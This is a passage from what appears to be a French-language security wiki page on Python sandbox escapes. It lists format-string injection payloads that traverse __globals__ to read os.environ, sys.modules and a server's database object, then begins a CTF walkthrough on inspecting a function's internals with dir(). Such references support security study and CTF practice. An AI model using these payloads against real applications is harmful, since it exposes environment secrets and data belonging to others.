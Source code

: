 ```python

'{:open-the-pod-bay-doors}'.format(HAL9000())
#I'm afraid I can't do that.
```
**Plus d'exemples** sur les **chaînes de format** peuvent être trouvés sur [**https://pyformat.info/**](https://pyformat.info)

### Charges utiles de divulgation d'informations sensibles
```python
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}

# Access an element through several links
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}
```
## Disséquer les objets Python

{% hint style="info" %}
Si vous voulez **apprendre** en profondeur sur le **bytecode Python**, lisez ce **post génial** sur le sujet: [**https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d**](https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d)
{% endhint %}

Dans certains CTF, vous pouvez être fourni avec le nom d'une **fonction personnalisée où se trouve le drapeau** et vous devez voir les **internes** de la **fonction** pour l'extraire.

Voici la fonction à inspecter:
```python
def get_flag(some_input):
    var1=1
    var2="secretcode"
    var3=["some","array"]
    if some_input == var2:
        return "THIS-IS-THE-FALG!"
    else:
        return "Nope"
```
#### dir

La fonction `dir()` est utilisée pour retourner une liste contenant les noms des attributs et des méthodes d'un objet. Elle peut être utilisée pour explorer les fonctionnalités d'un objet et pour déterminer comment l'utiliser. 

Par exemple, si vous voulez savoir quelles sont les méthodes disponibles pour un objet `foo`, vous pouvez utiliser `dir(foo)` pour obtenir une liste des noms de méthodes.
```python
dir() #General dir() to find what we have loaded
['__builtins__', '__doc__', '__name__', '__package__', 'b', 'bytecode', 'code', 'codeobj', 'consts', 'dis', 'filename', 'foo', 'get_flag', 'names', 'read', 'x']
dir(get_flag) #Get info tof the function
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
```
#### globals

